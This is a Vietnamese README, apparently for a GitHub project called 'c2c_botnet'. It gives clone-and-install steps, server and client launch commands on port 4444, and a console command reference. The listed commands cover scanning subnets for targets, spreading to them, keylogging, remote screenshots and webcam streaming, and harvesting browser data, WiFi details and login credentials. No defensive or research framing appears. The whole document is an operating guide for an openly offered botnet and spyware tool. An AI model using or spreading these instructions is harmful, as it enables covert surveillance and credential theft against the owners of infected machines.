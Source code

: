 ### Hướng Dẫn Cài Đặt

1. **Clone Repository**:
```powershell
git clone https://github.com/letho1608/c2c_botnet
cd c2c_botnet
```

2. **Cài Đặt Dependencies**:
```powershell
pip install -r requirements.txt
```

3. **Tạo Chứng Chỉ SSL** (Tùy chọn - tự động sinh nếu thiếu):
```powershell
# Server sẽ tự động sinh chứng chỉ self-signed
# Chứng chỉ tùy chỉnh có thể đặt là server_cert.pem và server_key.pem
```

## 🎮 Sử Dụng
python gui_launcher.py


### 🎨 Tính Năng GUI PyQt5:
- **Modern Sidebar**: Animation mượt mà, collapse/expand
- **Dashboard**: Real-time charts, system metrics, thống kê bot
- **Bot Management**: Table view với selection, control panel
- **System Monitoring**: CPU/Memory/Network charts, connection logs
- **Dark Theme**: Giao diện chuyên nghiệp, dễ nhìn
- **Responsive**: Tự động resize, optimal layout

### 📟 Command Line (Advanced):
```powershell
# Khởi động server
cd core
python server.py

# Tạo và chạy client
python client.py [server_host] [server_port]
```

**Kết Nối Mặc Định**: `localhost:4444`

## 💻 Lệnh Console

### 🤖 Quản Lý Bot
- `list` - Hiển thị danh sách bot đã kết nối
- `scan [subnet]` - Quét mạng tìm kiếm mục tiêu mới
- `spread <target>` - Lây lan đến mục tiêu cụ thể
- `info <bot_id>` - Hiển thị thông tin chi tiết bot
- `stats` - Hiển thị thống kê server và chỉ số hiệu suất

### 👁️ Giám Sát & Thu Thập Dữ Liệu
- `keylogger <bot_id> <start|stop|dump>` - Điều khiển keylogger
- `advanced_keylog <bot_id> <options>` - Keylogger nâng cao với tùy chọn mở rộng
- `screenshot <bot_id>` - Chụp màn hình từ xa
- `webcam <bot_id> <capture|stream>` - Thu thập hoặc stream webcam
- `sysinfo <bot_id>` - Lấy thông tin hệ thống
- `ps <bot_id>` - Liệt kê các tiến trình đang chạy
- `browser <bot_id> <browser>` - Thu thập dữ liệu trình duyệt
- `wifi <bot_id>` - Thu thập thông tin mạng WiFi
- `credentials <bot_id> <type>` - Thu thập thông tin đăng nhập
